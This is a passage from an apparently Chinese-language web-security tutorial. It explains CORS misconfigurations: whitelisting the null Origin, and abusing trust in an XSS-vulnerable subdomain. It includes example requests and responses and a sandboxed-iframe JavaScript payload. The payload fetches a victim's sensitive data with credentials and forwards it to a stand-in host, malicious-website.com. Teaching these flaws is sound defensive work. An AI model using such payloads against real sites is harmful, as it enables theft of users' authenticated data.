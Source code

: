 浏览器会在以下情况下发送值为 null 的 Origin 头：
- 跨站点重定向
- 来自序列化数据的请求
- 使用 `file:` 协议的请求
- 沙盒中的跨域请求

某些应用程序可能会在白名单中允许 null 以方便本地开发。例如，假设应用程序收到了以下跨域请求：
```
GET /sensitive-victim-data
Host: vulnerable-website.com
Origin: null
```

服务器响应：
```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true
```

在这种情况下，攻击者可以使用各种技巧生成 Origin 为 null 的请求以通过白名单，从而获得访问权限。例如，可以使用 `iframe` 沙盒进行跨域请求：
```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='malicious-website.com/log?key='+this.responseText;
};
</script>"></iframe>
```

### 通过 CORS 信任关系利用 XSS

`CORS` 会在两个域之间建立信任关系，即使 `CORS` 是正确的配置，但是如果某个受信任的网站存在 XSS 漏洞，那么攻击者就可以利用 XSS 漏洞注入脚本，进而从受信任的网站上获取敏感信息。

假设请求为：
```
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: https://subdomain.vulnerable-website.com
Cookie: sessionid=...
```

如果服务器响应：
```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```

那么攻击者可以通过 `subdomain.vulnerable-website.com` 网站上的 XSS 漏洞去获取一些敏感数据：
```
https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>
```
